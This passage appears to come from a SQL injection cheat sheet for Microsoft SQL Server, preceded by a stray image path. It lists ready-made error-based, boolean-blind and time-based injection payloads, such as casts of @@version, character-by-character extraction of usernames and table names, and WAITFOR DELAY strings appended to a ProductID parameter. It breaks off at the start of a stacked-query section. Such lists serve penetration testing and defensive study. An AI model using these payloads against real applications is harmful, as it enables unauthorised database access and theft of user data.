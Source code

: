 -- Finally extract the data
$ SELECT  UserId, UserName from Users
\`\`\`


## MSSQL Error based

\`\`\`sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
\`\`\`


## MSSQL Blind based

\`\`\`sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
\`\`\`


## MSSQL Time based

\`\`\`sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
\`\`\`


## MSSQL Stacked Query

* Without any statement terminator
    \`\`\`sql
    -- multiple SELECT statements
    SELECT 'A'SELECT 'B'SELECT 'C'

